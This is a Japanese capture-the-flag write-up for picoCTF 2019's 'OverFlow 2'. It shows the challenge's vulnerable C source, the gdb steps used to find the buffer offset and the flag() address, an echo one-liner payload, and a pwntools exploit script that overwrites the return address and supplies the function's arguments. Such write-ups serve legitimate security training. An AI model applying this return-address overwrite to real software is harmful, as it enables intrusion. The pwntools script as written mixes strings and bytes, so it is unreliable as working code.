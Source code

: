 # OverFlow 2
## picoCTF2019
## Binary Exploition
***

とりあえず与えられたソースコードを見てみる。  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

普通にBOFする問題ではあるが、ただBOFさせるだけではなく、二点注意する必要がある。  
* リターンアドレスをflag()にする
* 引数を入れてやらなければflagゲットまでいけない

まずはBOFさせるためオフセットを調べる。
> gdb ./vuln
> pattc 200
> patto PIEの値

これでoffsetがわかる。
> offset: 188

次にリターンアドレスとなるflag関数のアドレスを調べる。  
> p flag
これでリターンアドレスがわかる。
> リターンアドレス: 0x80485e6

ここまでを組み合わせると、188文字の適当な文字列+0x80485e6でflagを呼び出すことができる。  
次に引数を考える必要がある。引数ということは本来main関数の中に入っていたはずなので、その位置に0xDEADBEEFと0xC0DED00Dをflagの戻り値の後に入れる必要がある。この時flagの戻り値(本来vulnの戻り値であったところ)の分4バイト必要なため、flagのアドレスと引数の間に4バイト適当な文字を入れる必要がある。具体的には以下のようにする。  
188文字の適当な文字列+0x80485e6+AAAA+0xDEADBEEF+0xC0DED00D  
これをechoで渡せばいいので、以下のようなコマンドを打つ
> echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe6\x85\x04\x08AAAA\xEF\xBE\xAD\xDE\x0D\xD0\xDE\xC0' | ./vuln

これでフラグがでるため、これをsubmitする。
と、これでもフラグはゲットできるが、やはりexploitを書いた方がかっこいいので、コードも書く。  
```
from pwn import *
context(arch="i386", os="linux")
p = process("./vuln")
binf = ELF("./vuln")
flag_point = binf.symbols[b'flag']
offset = 188
payload = "A"*offset + p32(flag_point) + p32(0x00000000) + p32(0xDEADBEEF) + p32(0xC0DED00D)
p.sendline(payload)
p.interactive()
```

context -> exploitの実行環境などの設定をいい感じにしてくれる。
ELF -> 実行ファイルの情報(checksecや関数のアドレスなど)を取得、表示する。
binf.symbols[b'flag'] -> binfの中に情報が入っていて、その中のflag関数のアドレスをバイナリデータにする。
p32(0x00000000) -> 中の0x00000000を32bitのリトルエンディアンに変えてくれる。

これを実行すると同じくフラグが出てくる。
